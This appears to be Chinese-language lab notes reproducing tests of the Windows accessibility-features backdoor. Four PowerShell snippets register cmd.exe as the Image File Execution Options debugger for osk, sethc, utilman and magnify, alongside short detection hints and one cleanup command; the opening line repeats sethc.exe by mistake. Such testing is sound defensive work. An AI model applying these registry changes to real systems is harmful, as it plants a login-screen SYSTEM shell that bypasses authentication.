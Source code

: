 两个常见的程序是`C:\Windows\System32\sethc.exe`和`C:\Windows\System32\sethc.exe`,连续使用shift五次和`Windows + U `打开设置

其他的快捷键如下
- On-Screen Keyboard: C:\Windows\System32\osk.exe
- Magnifier: C:\Windows\System32\Magnify.exe
- Narrator: C:\Windows\System32\Narrator.exe
- Display Switcher: C:\Windows\System32\DisplaySwitch.exe
- App Switcher: C:\Windows\System32\AtBroker.exe
###### 测试1 Attaches Command Prompt As Debugger To Process - osk
这个就是调用出软键盘,和运行`osk.exe`一个效果
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
New-Item -Path $registryPath -Force
New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType STRING -Force
```
检测就是监控那个svchost进程的process create操作

win10上成功复现
###### 测试2 Attaches Command Prompt As Debugger To Process - sethc
这个就是粘滞键(连续按5次shift)
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
New-Item -Path $registryPath -Force
New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType STRING -Force
```
检测就是监控那个svchost进程的process create操作

win10上成功复现
###### 测试3 Attaches Command Prompt As Debugger To Process - utilman
这个就是设置那个界面,和运行`utilman.exe`一样
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
New-Item -Path $registryPath -Force
New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType STRING -Force
```
检测就是监控那个svchost进程的process create操作

删除
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /v Debugger /f
```
win10上成功复现
###### 测试4 Attaches Command Prompt As Debugger To Process - magnify
这个就是放大镜,和运行`magnify.exe`一样
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
New-Item -Path $registryPath -Force
New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType STRING -Force
```
